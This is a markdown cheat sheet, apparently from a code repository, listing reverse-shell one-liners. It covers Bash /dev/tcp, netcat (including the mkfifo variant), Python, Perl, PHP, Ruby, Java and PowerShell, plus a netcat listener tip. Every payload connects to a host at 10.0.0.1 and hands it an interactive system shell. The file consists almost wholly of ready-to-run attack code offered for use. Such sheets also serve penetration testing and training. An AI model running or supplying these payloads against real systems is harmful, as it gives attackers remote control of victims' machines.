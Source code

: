 # ReverseShell

## Windows autocompletion 

- Use `rlwrap`
- `rlwramp nc -nlvp 4444`

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234
nc.traditional -e /bin/sh 10.0.0.1 1234
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Python

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

## Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";
$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))
if(connect(S,sockaddr_in($p,inet_aton($i)))){
open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```

## PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## PowerShell
```
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
